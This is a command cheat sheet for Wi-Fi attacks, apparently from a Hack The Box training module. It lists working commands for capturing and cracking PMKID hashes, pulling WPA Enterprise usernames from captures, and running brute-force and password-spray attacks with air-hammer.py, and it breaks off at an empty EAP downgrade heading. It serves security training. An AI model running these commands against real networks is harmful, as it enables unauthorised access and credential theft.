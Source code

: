 # PMKID Attack

| Command | Description |
| --- | --- |
| `sudo airmon-ng start wlan0` | Enable monitor mode. |
| `sudo hcxdumptool -i wlan0mon --enable_status=3` | Scan for networks vulnerable to the PMKID attack. |
| `sudo airodump-ng wlan0mon --essid <target_ESSID>` | Determine BSSID of the vulnerable network using its ESSID. |
| `hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=<target_BSSID> --filtermode=2 -o HTBPMKID.pcap` | Capture the target's PMKID. |
| `hcxpcapngtool -o hash HTBPMKID.pcap` | Convert the pcap to a usable hash format. |
| `hashcat -m 22000 --force hash /opt/wordlist.txt` | Crack the hash (using Hashcat). |
| `hashcat -m 22000 --force hash /opt/wordlist.txt --show` | Display the cracked password. |

# WPA Enterprise Reconnaissance

| Command | Description |
| --- | --- |
| `sudo airmon-ng start wlan0` | Enable monitor mode. |
| `sudo airodump-ng wlan0mon -c 1 -w WPA` | Scan for available Wi-Fi networks and their associated clients, saving the traffic to a capture file. |
| `tshark -r WPA-01.cap -Y '(eap && wlan.ra == 9c:9a:03:39:bd:7a) && (eap.identity)' -T fields -e eap.identity` | Extract usernames from a packet capture (using tshark). |
| `python2 /opt/crEAP/crEAP.py` | Extract usernames from a packet capture (using crEAP). |
| `bash /opt/pcapFilter.sh -f /home/wifi/WPA-01.cap -C` | Extract the handshake certificate from packet capture. |
| `sudo bash /opt/EAP_buster/EAP_buster.sh HTB-Corp 'HTB\Ketty' wlan0mon` | Identify the authentication methods available to the user. |

# Performing Bruteforce Attacks

| Command | Description |
| --- | --- |
| `echo "HTB\Sentinal" > user.txt` | Save the target username to a file. |
| `sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -p /opt/rockyou.txt -u user.txt` | Execute a bruteforce attack using air-hammer.py. |
| `cat /opt/statistically-likely-usernames/john.txt \| awk '{print "HTB\\" $1}' > domain_users.txt` | Create a list of usernames with a domain prefix. |
| `sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt` | Execute a password spray attack using air-hammer.py |
| `sudo python2 air-hammer.py -i wlan1 -e HTB-Corp -P football -u domain_users.txt -s 65` | Resume a cancelled attack. |

# EAP Downgrade Attack
